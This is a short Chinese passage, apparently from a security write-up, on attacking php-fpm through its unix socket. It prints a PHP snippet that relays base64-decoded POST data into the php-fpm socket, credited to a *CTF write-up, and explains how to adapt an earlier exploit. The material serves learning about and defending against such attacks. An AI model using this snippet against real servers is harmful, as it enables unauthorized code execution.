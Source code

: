     ![](/styles/images/2019-5/gopherphppost.png)

    + 攻击套接字 

        上面讲的都是 php-fpm 通过 TCP 方式与 nginx 连接，那如果 php-fpm 通过 unix 套接字与 nginx 连接该怎么办 接下来请欣赏 php 的魔法

        
        ```php
        <?php 
        $sock=stream_socket_client('unix:///run/php/php7.3-fpm.sock');
        fputs($sock, base64_decode($_POST['A']));
        var_dump(fread($sock, 4096));
        ?>
        //来自https://xz.aliyun.com/t/5006#toc-3 
        //ROIS的*CTF WP
        ```
        默认套接字的位置在 /run/php/php7.3-fpm.sock（7.3 是 php 版本号）

        当然，如果不在的话可以通过默认 /etc/php/7.3/fpm/pool.d/www.conf 配置文件查看套接字路径 或者 TCP 模式的端口号。

        当然，如果采用套接字的方式连接，我们暂时不能使用 ssrf 来攻击 php-fpm，只能通过 linux 的数据流来进行数据传递，相对于 tcp 还是比较安全的 exp 的话，把上面那个 exp 的最后三行改下就行了，如果是 base64 数据传输换成 base64encode，如果直接传的话把 gopher 的字符串去掉